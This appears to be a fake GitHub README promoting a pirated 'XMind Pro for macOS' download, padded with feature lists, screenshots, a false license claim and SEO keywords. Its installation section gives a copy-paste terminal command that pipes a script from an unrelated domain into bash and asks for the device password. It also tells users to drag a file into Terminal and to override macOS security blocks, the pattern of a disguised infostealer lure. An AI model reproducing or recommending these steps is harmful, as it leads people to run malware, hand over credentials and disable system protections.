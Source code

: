 <p align="center">
  <img src="https://i.ibb.co/35xYNJX6/icon.webp" width="350" alt="XMind Pro macOS Banner" />
</p>

<h1 align="center">XMind Pro for macOS</h1>

<p align="center">
  🧠 Premium mind mapping and brainstorming software for structured thinking. Organize ideas, build project trees, and visualize workflows — right from your Mac.  
  <br><br>
  ✅ Apple Silicon Optimized  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/282" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20XMIND%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download XMind Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/hFJCzqPg/1693647555-1.webp" alt="XMind Mind Map Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is XMind Pro for macOS?

**XMind Pro** is an advanced mind mapping application designed to help users structure ideas, break down complex thoughts, and plan projects with clarity. Whether you’re managing tasks, preparing for a presentation, or organizing creative workflows — XMind Pro brings your thoughts to life visually.

Its pro-level features allow for multi-branch maps, Gantt charts, slide-based presentations, and more, making it ideal for business, education, and productivity use cases.

---

## ✅ Why Choose XMind Pro?

- 🧠 **Powerful Mind Mapping Engine**  
- 🧩 **Flowcharts, Tree Diagrams & Gantt Views**  
- 🧾 **Task Management & Outline Mode**  
- 🗂️ **Customizable Themes & Styles**  
- 🖥️ **Slide-Based Presentations Built-In**  
- 📦 **Multi-Export Options (PDF, SVG, PNG)**  
- 🍎 **Optimized for Apple Silicon Macs**  
- ☁️ **Offline Mode – Full Local Control**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/S7DDzxfK/2.webp" alt="Task Tree View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/Hf3CDDcT/3.webp" alt="Presentation Mode in XMind Pro" />
</p>

---

## 🚀 Key Features

- Create mind maps and logic trees  
- Brainstorm with smart structure templates  
- Switch between map, outline, and Gantt modes  
- Slide-based presentations for teams or clients  
- Support for LaTeX formulas, stickers, markers  
- Export to all major formats  
- Full Apple M1/M2/M3 support  
- Local file-based workflow — no forced cloud

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow XMind Pro manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Mind+Maps-Gantt+Outliner+Flowchart-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Optimized-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ XMind Pro – Think Visually

Thanks for using **XMind Pro for macOS**.  
Map your mind. Execute your ideas.

---

## 🧭 Usage Context

XMind Pro is perfect for creatives, planners, teachers, and product teams.  
All data remains local. Works offline — no data sync required.

---

## 🔍 Tags

```text
xmind pro mac download, premium mind mapping tool macos, flowchart and brainstorming app for mac, professional mind map creator apple silicon, xmind full version for macbook m1 m2 m3, project tree visualizer mac, gantt chart mind map combo tool mac, offline mind mapping software macos, xmind pro for education and business mac, structured thinking diagram tool mac, logic diagram editor for mac os x, xmind slide presentation tool mac, productivity mind map software mac, outline and mindmap hybrid mac app, xmind advanced visual organizer mac
